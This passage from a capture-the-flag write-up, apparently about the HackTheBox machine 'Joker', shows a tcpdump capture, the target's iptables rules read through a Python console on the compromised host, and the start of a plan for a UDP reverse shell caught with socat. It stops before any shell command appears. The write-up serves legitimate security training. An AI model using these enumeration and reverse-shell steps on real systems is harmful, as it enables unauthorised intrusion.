 The `ping` does make it back:

```

root@kali# tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
06:55:52.073158 IP 10.10.10.21 > 10.10.14.13: ICMP echo request, id 1432, seq 1, length 64
06:55:52.073183 IP 10.10.14.13 > 10.10.10.21: ICMP echo reply, id 1432, seq 1, length 64

```

### Enumerating Firewall

Having had issues connecting from Joker to my box twice now, so it’s time to enumerate the firewall. Before I start running loops to test what makes it out, I decided to try to print the firewall rules, and it worked:

```

[console ready]
>>> with open('/etc/iptables/rules.v4', 'r') as f: print(f.read())
# Generated by iptables-save v1.6.0 on Fri May 19 18:01:16 2017
*filter
:INPUT DROP [41573:1829596]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [878:221932]
-A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -i ens33 -p tcp -m tcp --dport 3128 -j ACCEPT
-A INPUT -i ens33 -p udp -j ACCEPT
-A INPUT -i ens33 -p icmp -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP
COMMIT
# Completed on Fri May 19 18:01:16 2017

```

It starts by setting the default for inbound as `DROP` and for outbound and forward as `ACCEPT`. Then reading from the top:
- TCP 22 inbound is allowed;
- TCP 3128 inbound is allowed;
- All UDP inbound is allowed;
- All ICMP inbound is allowed;
- All localhost inbound is allowed;
- All new TCP connections outbound are dropped.

This all fits what I’ve experienced so far.

### UDP Rev Shell

Since UDP is accepted inbound and not blocked outbound (so accepted due to the default outbound `ACCEPT`), I’ll try using commands based on [this UDP rev shell](https://github.com/infodox/python-pty-shells/blob/master/udp_pty_backconnect.py). I’ll also catch the shell with `socat` so I can go right into a PTY, rather than having to do the normal trick for that. With `socat` listening:
